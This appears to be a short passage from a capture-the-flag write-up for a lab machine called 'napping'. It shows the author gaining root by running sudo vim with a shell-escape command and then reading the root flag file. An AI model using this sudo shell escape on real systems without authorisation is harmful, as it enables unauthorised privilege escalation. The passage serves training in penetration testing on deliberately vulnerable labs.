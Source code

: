 I executed the following command to get root, as you see now is possible to read the root flag.

```console
adrian@napping:~$ sudo vim -c ':!/bin/bash'


:!/bin/bash
root@napping:/home/adrian# cd
cd
root@napping:~# cat root.txt
cat root.txt
Admins just can't stay awake tsk tsk tsk
```
